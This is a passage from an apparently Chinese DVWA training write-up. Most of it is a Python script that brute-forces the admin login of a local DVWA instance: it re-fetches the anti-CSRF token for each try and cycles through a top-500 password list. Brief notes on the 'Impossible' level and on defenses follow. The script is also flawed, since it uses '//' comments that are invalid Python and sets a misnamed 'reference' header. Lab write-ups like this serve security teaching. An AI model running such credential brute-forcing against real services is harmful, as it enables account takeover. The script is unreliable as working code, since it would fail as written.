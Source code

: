 ```
    'security': 'high',
    'PHPSESSID': 'a91156e24ae52243c852449283bc6832'
}

// 程序会对请求头里的reference进行验证，验证请求来自合法的域名。
headers = {
	'reference': ''
}

// 获取password
def read_passwd():
	f = open('top500.txt')
	passwd = f.readline()
	while passwd:
		// 先将password进行处理，去掉换行符，然后调用poc函数进行验证
		if poc(passwd.strip()):
			print(passwd)
			break
		passwd = f.readline()

def getUserToken():
	url = "http://localhost/dvwa/vulnerabilities/brute/index.php"
	res = requests.get(url, cookies=cookies, proxies=proxies)
	result = re.search(r'<input type=\'hidden\' name=\'user_token\' value=\'(.*?)\' />', res.text)
	return result.group(1)

def poc(passwd):
	user_token = getUserToken()
	url = "http://localhost/dvwa/vulnerabilities/brute/index.php?username=admin&password=%s&Login=Login&user_token=%s"%(passwd, user_token)
	headers['reference'] = url
	res = requests.get(url, cookies=cookies, headers=headers, proxies=proxies)
	if not "incorrect" in res.text:
		return True
	else :
		return False

read_passwd()
```

### Impossible

在impossible难度下，程序限制了密码错误次数，并且在错误一定次数后，冻结账号一段时间。

### 防御方式

1.添加token，防止一个数据包被重复利用。

2.做错误次数限制，防止脚本爆破。

## Command Injection
